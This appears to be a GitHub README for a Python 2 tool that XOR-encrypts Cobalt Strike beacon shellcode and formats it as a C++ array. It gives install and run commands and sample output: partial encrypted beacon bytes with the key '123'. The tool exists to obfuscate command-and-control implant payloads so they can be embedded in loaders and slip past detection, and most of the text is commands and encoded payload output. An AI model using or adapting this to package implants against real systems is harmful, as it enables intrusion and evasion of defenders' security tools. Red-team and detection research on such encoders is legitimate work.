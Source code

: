 # Shellcode Encoder (XOR) for Cobalt Strike RAW Files   

[Shellcode Generation Aggressor Script](https://github.com/RCStep/CSSG)

## What it Does:
XOR's the .RAW or .BIN with a key   
Formats Output for C++  

## Recommondation - Pipe Output Into File (Large Output)      
> sudo apt update   
> sudo apt install python-pip   
> pip2 install -r requirements.txt   
> python2.7 encode-CS-shellcode.py beacon-test.raw 123 > test.txt      


## Output
```
char key[] = "123";
char encryptedShellcode[] = 

    "\x7c\x68\x72\x63\x67\x7b\xb8\xd7\x7b\xb0\xde\x13\x31\x32\x33\x79"
    "\xbf\x2e\xdb\xcd\xcc\xce\x7a\xba\xee\x7a\xb2\xf2\xfe\x53\x30\x32"
    "\xcc\xe2\x73\x8b\xc1\x87\x91\x67\x5a\x37\x31\x32\x33\x6b\x7a\xba"
    "\xc8\xcd\xe3\x31\x32\x33\x31\x32\x33\x31\x32\x33\xc9\x32\x33\x31"
    "\x3c\x2c\x8b\x3c\x33\x85\x3b\xfe\x10\x8a\x32\x7d\xff\x12\x65\x5a"
    "\x5a\x42\x12\x43\x43\x5d\x54\x43\x53\x5e\x11\x51\x52\x5f\x5c\x5c"
    "\x45\x12\x51\x54\x12\x41\x44\x5c\x13\x58\x5c\x13\x75\x7d\x60\x11"

```
...    
```
    "\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32"
    "\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33"
    "\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31"
    "\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32"
    "\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33"
    "\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31"
    "\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32"
    "\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33"
    "\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31"
    "\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32"
    "\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33"
    "\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31"
    "\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32"
    "\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33"
    "\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31"
    "\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32"
    "\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33"
    "\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31"
    "\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32"
    "\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33"
    "\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31"
    "\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32"
    "\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33"
    "\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31"
    "\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32";

```
